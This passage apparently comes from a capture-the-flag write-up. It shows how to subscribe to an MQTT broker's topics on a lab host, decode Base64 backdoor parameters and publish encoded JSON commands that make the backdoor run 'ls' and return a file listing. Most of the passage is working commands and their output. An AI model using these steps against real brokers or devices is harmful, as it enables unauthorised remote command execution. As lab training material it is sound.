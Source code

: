   ```
  livingroom/speaker {"id":10633409225820070005,"gain":69}
  storage/thermostat {"id":14494242988804460776,"temperature":23.68221}
  ^C   
  ```
  
- When you decode this Base64 strings you will get this parameters:

  ```
  {"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"} 
  ```
  
- So now, we are going to publish to a topic. Start the first command again and then use `mosquitto_pub` to publish a topic. You will see your command published to subscriptions.
  Let the subscriptions run in one terminal and publish from another terminal.

  ```
  mosquitto_pub -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}' -h 10.10.11.207 -d
  Client null sending CONNECT
  Client null received CONNACK (0)
  Client null sending PUBLISH (d0, q0, r0, m1, 'yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/sub', ... (6 bytes))
  Client null sending DISCONNECT
  
  mosquitto_sub -t '#' -h 10.10.11.207 -v
  storage/thermostat {"id":6420015945026965606,"temperature":24.065857}
  yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/sub {HELP}
  ```

- Now let's encode our command with Base64 and publish it:

  ```
  mosquitto_pub -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m "SEVMUAo=" -h 10.10.11.207 -d

  mosquitto_sub -t '#' -h 10.10.11.207 -v
  storage/thermostat {"id":8527740269761492985,"temperature":23.499147}
  XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub SEVMUAo=
  U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
  livingroom/speaker {"id":6527046317500335545,"gain":64}
  ```

- There it is! Decode the string so you can get this:

  ```
  Invalid message format.
  Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
  ```

- OK, now we have a format on how to execute commands. Let's do it!

  ```
  echo '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}' | base64
  eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNN
  RCIsICJhcmciOiAibHMifQo=
  
  mosquitto_pub -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=" -h 10.10.11.207 -d

  mosquitto_sub -t '#' -h 10.10.11.207 -v
  kitchen/toaster {"id":15187721126378853252,"in_use":false,"temperature":155.26814,"toast_time":274}
  XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=
  U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9
  ```

